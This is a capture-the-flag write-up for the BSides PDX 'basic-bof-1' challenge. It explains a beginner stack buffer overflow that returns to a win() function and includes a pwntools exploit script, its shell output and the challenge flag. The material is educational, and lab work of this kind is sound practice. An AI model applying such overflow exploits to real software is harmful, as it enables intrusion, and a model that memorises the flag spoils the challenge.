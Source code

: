 # basic-bof-1
This is a super beginner friendly challenge that only really involves returning to a win() function.

Running the binary, we get:
```
You've got a 40-byte buffer to overflow. There is a win() function you should call (TODO: find its address?). Remember to overwrite the base pointer etc!

Get a shell: gimme gushers
I hope your payload was right. Returning...
```

Ok, whenever we know there is a buffer overflow involved, the first thing we should do is scream at the binary, so let's do that!  We already know the buffer size is 40 bytes, but let's double check.
```
You've got a 40-byte buffer to overflow. There is a win() function you should call (TODO: find its address?). Remember to overwrite the base pointer etc!

Get a shell: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCCDDDD
I hope your payload was right. Returning...
Segmentation fault (core dumped)
```
Wonderful

All that's left is to find the address of the win() function and we should be good to go!  We can just do an `objdump -d basic-bof | grep -w win` to get the location of the function.
```
0000000000401e95 <win>:
```
Sweet!  Let's build our exploit.  
I just used pwntools because I'm really bad at piping input around in the terminal.

```python
from pwn import *
io = remote('basic-bof-1.bsidespdxctf.party', 9999)

io.recvuntil("Get a shell: ")
padding = b'A'*56
EIP = p64(0x0000000000401e95)
io.sendline(padding + EIP)

io.interactive()
```

Running this we get our flag :)
```
[+] Opening connection to basic-bof-1.bsidespdxctf.party on port 9999: Done
[*] Switching to interactive mode
I hope your payload was right. Returning...
Good job, you called win()!
$ cat flag.txt
BSidesPDX{r3turn_t0-w1111111n}
```
